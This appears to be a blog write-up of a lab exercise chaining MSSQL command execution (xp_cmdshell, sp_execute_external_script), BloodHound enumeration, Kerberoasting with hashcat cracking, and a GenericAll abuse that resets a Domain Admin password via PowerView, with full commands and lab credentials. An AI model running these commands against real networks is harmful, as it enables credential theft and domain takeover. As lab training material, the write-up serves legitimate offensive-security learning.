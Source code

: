```yaml
---
title: Kerberoasting Using Mssql Server [ Abusing GenericAll ] 
author: r0b0tG4nG
date: 2022-01-13 01:33:00 +0000
categories: [Blogging, Exploiting]
tags: [writeups, mssql, impacket-mssqlclient, hashcat, xp_cmdshell, powerview, evil-winrm, kerberoast, bloodhound]
math: true
mermaid: true
---
```


![image](kerberoast)
<br><br>

**> Information Gathering**<br>

From The previous writeup on <a href="https://r0b0tg4ng.github.io/posts/Abusing-MSSQL-Linked-Servers/">Abusing MSSQL Linked Servers</a>, we found credentials on the target. In this chapter, we will look at how we can perform kerberoast attacks through `MSSQL Server`. During our previous engagement, we found credentials using <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql?view=sql-server-ver15">sp_execute_external_script</a>.<br>
```web.config
        <authentication mode="Forms">
            <forms name="login" loginUrl="/admin">
                <credentials passwordFormat = "Clear">
                    <user 
                        name="Administrator" 
                        password="EverybodyWantsToWorkAtP.O.O."
                    />
                </credentials>
            </forms>
        </authentication>
```
<br>

The question is what can we do with this credential?? Well, we are not out of options. I checked the ipaddress of the target `MSSQL Server` is running on using `sp_execute_external_script` command `EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("ipconfig");'; `. Looking at `IPV4` IP address, there was no service that we could connect to remotely with the credentials we have. So, i decided to dive deep into the `IPV6` address.<br>
![image](ipconfig)<br>

A quick nmap scan was performed on the `IPV6` IP address. Port 5985 (Windows Remote Management) was open. Good news at last all we need to do is add the `IPV6` IP address to `/etc/hosts` file `dead:beef::1001  targetipv6`. Henceforth, when i type `targetipv6` i am referring to `dead:beef::1001` address.<br>
![image](nmap)<br>

I connected to `WinRM` using <a href="https://github.com/Hackplayers/evil-winrm">evilwinrm</a> tool. The command executed to connect to `WinRM` was `evil-winrm -i targetipv6 -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'`<br>
![image](evilwinrm connect)<br>

Digging around using <a href="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS">winpeas</a> and some few post enumeration tools didn’t yield any positive results. So, i decided to enumerate the domain to find privilege escalation paths but i realized we can't query the domain from a
local administrator account from the errors i encountered.<br>
![image](error)<br>

However, the `SQL service account` can be use instead since service accounts
automatically impersonate the computer account, which are members of the domain and effectively a special type of user account. I logged into `MSSQL` using `impacket-mssqlclient` with the `SA` User we added in the <a href="https://r0b0tg4ng.github.io/posts/Abusing-MSSQL-Linked-Servers/">previous post</a> and enabled `xp_cmdshell` to query domain users with command `xp_cmdshell net users /domain`. <br>
![image](netusers)<br>

`BloodHound` is an application developed with one purpose: to find relationships within an `Active Directory (AD) domain` to discover attack paths. With this said, we will grab `SharpHound.exe` from <a href="https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors">BloodHoundAD GitHub page</a>. Create the `C:\temp\` directory first then upload the `SharpHound.exe` to the target using our evil-winrm session.<br>
![image](upload)<br>

Then the next step is to collect all information about the `Active Directory (AD) domain` through mssql using the command `xp_cmdshell C:\temp\SharpHound.exe -C All --outputdirectory C:/temp`.<br>
![image](collection)<br>

Once information about the target `Active Directory (AD) domain` is collected and saved into a zip file, we then download the zip file using evil-winrm download command.<br>
![image](download)<br>

Install `BloodHound GUI` and upload the zip file you downloaded. *Note: you can install bloodhound GUI from* <a href="https://bloodhound.readthedocs.io/en/latest/data-analysis/bloodhound-gui.html">BloodHound Docs</a>.<br>
![image](bloodhound uploaded)<br>

After uploading the zip file to bloodhound UI for visualization. We can use pre-built queries to find any quick `privilege escalation vectors`. Clicking on the `Shortest Paths to Domain Admins from Kerberoastable Users` entry shows the following.<br>
![image](shortest path)<br>

The user `p00_adm` is a member of `help desk` and has `GenericAll privileges` on the `Domain Admins group`. This means that we can add any user to `Domain Admins` if we have `p00_adm credentials`. To accomplish this, we need to kerberoast the `p00_adm` user and try to crack his hash. We can use the `Invoke-Kerberoast.ps1` from <a href="https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1">EmpireProject GitHub page</a>.<br>

**> What is Kerberoasting??:** Kerberoasting is a post-exploitation attack that extracts service account credential hashes from Active Directory for offline cracking. It is used to crack a Kerberos (encrypted password) hash using brute force techniques. If successful, it can crack NTLM hashes in a few hours and provide the adversary with a clear-text password<br>

Download the `Invoke-Kerberoast.ps1` script, upload it to `C:\temp\` directory using `Evil-winrm` session like we did to the `SharpHHound.exe` binary. Once we have the `.ps1` uploaded, we can invoke our `kerberoast attack` through `MSSQL` using the command `xp_cmdshell powershell.exe -c "Import-Module C:\temp\Invoke-Kerberoast.ps1; Invoke-Kerberoast -OutputFormat hashcat"`<br>
![image](kerberoast attack)<br>
![image](poo_adm)<br>

We found two hashes `p00_hr` & `p00_adm`. Keep in mind that we are after `p00_adm` user hash therefore i copied the `p00_adm` user hash to a file and made sure that i deleted the spaces and empty lines from the hash. `p00_adm`. The hash can be cracked using Hashcat command `hashcat -m 13100 hashes /usr/share/seclists/Passwords/Keyboard-Combinations.txt --force`. Lucky us! we were able to crack the password. *Note: this took a very long time since i had to try a variety of wordlist until i got the  password* The password for `p00_adm` is `ZQ!5t4r`.<br>
![image](hashcat)<br>

What else now?? well we have `p00_adm` user plaintext password and we can `impersonate` the `p00_adm` with the help of `PowerView`. How do we achieve this? first let's grab `PowerView.ps1` from <a href="https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView">PowerShellEmpire GitHub page</a> and upload it to the target using evil-winrm. Once The `PowerView.ps1` script is uploaded, the next thing to do is to import the file so we will have access to `PowerView` extended commands like `Add-DomainGroupMember`, `Get-DomainComputer`.....etc.<br>

All done?? what's next?? We need to use a credential object to impersonate `p00_adm` user. Execute this command<br>
```shell
$user='p00_adm'
$pass='ZQ!5t4r'
$p= ConvertTo-SecureString -AsPlainText $pass -force
$cred=New-Object System.Management.Automation.PSCredential -ArgumentList $user,$p
```
<br>

![image](impersonate p00_adm)<br>

After impersonating `p00_adm` user, i still had issues logging in so i searched for `Domain Admins` on the target using the command `get-netuser -DomainController dc -Credential $cred`. From this, i found out the user `mr3ks` is part of the `Domain Admins Group`.<br>
![image](mark domain admin)<br>

**> Abusing GenericALL**<br>

Looking back at the `BloodHound GUI`, to abuse `GenericAll`, i right-clicked on the `GenericAll` line, selected `help` and then `Abuse`. This Feature of `BloodHound GUI` explains how we can abuse this feature.<br>
![image](generic all)<br>

What can we do now? well, we can change the credentials for `mr3ks` user. The question is how do we do that?? remember i just said `BloodHound GUI` explains everything. I executed this command<br>
```shell
$Username = 'p00_adm'
$Password = 'ZQ!5t4r'
$Connect = ConvertTo-SecureString -AsPlainText $Password -Force
$Auth = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$Connect
Set-DomainUserPassword -Identity mr3ks -Password $Connect -Credential $Auth
```
<br>

![image](mr3lks chaange)<br>

We encountered no errors that's good news to the eyes. Let's try to connect to the target through the target `IPV6` `Win-RM` service.  To achieve this, i executed `evil-winrm -i targetipv6 -u mr3ks -p 'ZQ!5t4r'`<br>
![image](mr3ks shell)<br>

